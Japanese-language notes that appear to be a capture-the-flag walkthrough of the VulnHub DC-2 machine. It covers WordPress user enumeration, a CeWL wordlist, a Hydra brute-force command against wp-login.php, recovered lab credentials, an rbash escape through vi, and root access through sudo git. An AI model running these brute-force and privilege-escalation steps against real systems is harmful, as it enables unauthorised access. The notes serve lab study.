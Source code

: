 ## DC-2 454~
## 目的
- flag1 webサイト
- flag2 wordpress login
- flag3 ターゲットフォルダ
- flag4 ターゲットフォルダ
- finalflag rootフォルダ
- 合計5つのフラグを表示する

### ポートスキャンまでは同じ
  - ポートスキャン 80(http), 7744(ssh)
### WEBサイトを見る
- `192.168.56.104`でサイトを見ると`dc-2`に飛ばされる(リダイレクトと呼ぶ)
- 直すために`sudo vim /etc/hosts`に以下のように書き込む
- `192.168.56.104 dc-2`
- これはipアドレスにドメインネームを設定している
- サイトが開くのでflag1を見つける
- サイトを見てFLAGSを探す。3つヒントが書いてある。
- 1. Cewlを使う
  2. 1人でログイン
  3. 別名でログイン
### gobuster
- `gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt`
  - `$URL`の代わりに`$IP`でもOK 
- `/wp-admin`があることがわかる
### ブラウザでチェックしてみる
- 先ほど取得したディレクトリでサイトにアクセスしてみると認証ページに飛ぶことがわかる
- それ以上は特にわからない
### wig
- `wig $URL`
- wordPressのバージョンやOSのバージョンがわかる
- それ以上は特にわからない
### Nmap NSE(wpscanでもできる cf690)
- wordPressのユーザを見つけることができる
- `nmap -p80 --script http-wordpress-users 192.168.56.104`
- userが3人であることがわかる
- users.txtを作る
  - `cat > users.txt` で３人の名前を書いて、改行して ctrl + c
  - ```
    admin
    jerry
    tom 
    ```
### CewL
- CewLは指定したWEBサイトをスクレイピングして、キーワードを辞書ファイルとして生成するツール
- Cewl install cf471
  - `/vulnhub/` 　フォルダに移動する
  - `git clone https://github.com/digininjya/CeWL`
  - `cd CeWL`
  - `sudo gem install bundler`
  - `bundle install`
  - `chmod u+x ./cewl.rb`
- `./cewl.rb dc-2 -w ../cewl.txt`
  - パスが通っていないのでCewlフォルダに入って実行する
  - dc-2は/etc/hostsで設定したIPアドレスで、そこの対象のサイトをスクレイピングする
  - -wはファイルの書き込みを指定していて、一つ上のフォルダに指定している。絶対パスで自分の好きなとこにおいてもいい
### Hydra
- `hydra -L users.txt -P cewl.txt dc-2 http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'`
  - -L:ユーザリストを指定, -l:特定のユーザを指定
  - -P:パスワードリストを指定, -p:特定のパスワードを指定
  - logとpwdはwp-login.phpのソースコードを見るとわかる
### 認証情報
|ユーザ名|パスワード|
|:-|:-|
|admin|?|
|jerry|adipiscing|
|tom|parturient|

### WordPressのダッシュボードにアクセスする
  - `http://192.168.56.104/wp-admin/`
  - NmapとHydraで得たuser,passwordを入力してアクセスする
  - Flag2を見つける 
### SSH
  - wordPressの投稿者がsshのユーザと仮定している
  - jerryでログインするが失敗する。jerryはwordpressのパスワードとsshのパスワードを使い回していない
  - tomでssh `ssh -p 7744 tom@$IP`
  - passwordを入力
  - `echo $PATH`で`ls $PATH`を見るとコマンドが４つしか使えない
  - プロンプトが返ってくる `echo $SHELL`でrbashという制限が多いシェルだとわかる 
### 通常のシェルを使えるようにする
  - viは使えるのでGTFOBinsで`vi`でシェルを呼び出すのを見つける
  - viを呼び出す
  - `:set shell=/bin/sh`
  - Enterを押す
  - `:shell`
  - Enterを押す
  - `$`が出たら成功
### 環境変数を設定する
  - 通常のコマンドが使えるようにPATHを追加する
  - `export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin/:/usr/bin:/sbin:/bin`
  - 確認する `echo $PATH`
### jerryでssh
  - ユーザを切り替え `su jerry`
  - パスワードを入力 <- wordpressのパスワードを使い回している 

### sudoコマンドの設定を調べる
- `sudo -l`
- 次の表示がされるが、これはgitをrootなしで使えることがわかる
  - `(root) NOPASSWORD: /usr/bin/git`
### git
- GTFOBinsでgitコマンドを利用して、root権限を取得する
- `sudo git -p help config`
- `:`と出てきたら成功で以下を入力
- `!/bin/sh`  
### Flagを取得
  - `cd /root | cat final-flag.txt` 
